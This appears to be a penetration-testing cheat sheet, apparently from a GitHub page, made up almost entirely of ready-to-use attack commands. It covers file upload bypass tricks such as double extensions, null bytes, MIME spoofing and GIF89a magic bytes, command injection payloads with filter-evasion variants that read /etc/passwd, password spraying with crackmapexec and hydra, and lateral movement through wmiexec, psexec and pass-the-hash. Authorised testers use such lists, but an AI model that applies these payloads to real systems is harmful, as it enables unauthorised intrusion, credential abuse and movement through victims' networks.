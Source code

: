 #### File Upload Bypass Techniques
```bash
# Extension bypasses
file.php.jpg
file.php%00.jpg (null byte)
file.php;.jpg
file.pHp

# MIME type bypasses
Content-Type: image/jpeg (while uploading PHP)

# Magic bytes
Add GIF89a; at beginning of PHP file
```

#### Command Injection Patterns
```bash
# Basic command injection
; ls -la
| whoami
&& id
` cat /etc/passwd `

# Bypassing filters
cat /etc/passwd
c""at /etc/passwd
c'a't /etc/passwd
$(cat /etc/passwd)
```

### Network Attacks

#### Password Spraying
```bash
# Single password against multiple users
crackmapexec smb <target> -u users.txt -p 'Password123!'
crackmapexec winrm <target> -u users.txt -p 'Password123!'

# Hydra password spraying
hydra -L users.txt -p 'Password123!' ssh://<target>
```

#### Lateral Movement
```bash
# WMI execution
wmiexec.py domain/user:password@<target>

# PSExec
psexec.py domain/user:password@<target>

# Pass-the-Hash
pth-winexe -U domain/user%hash //<target> cmd
```

---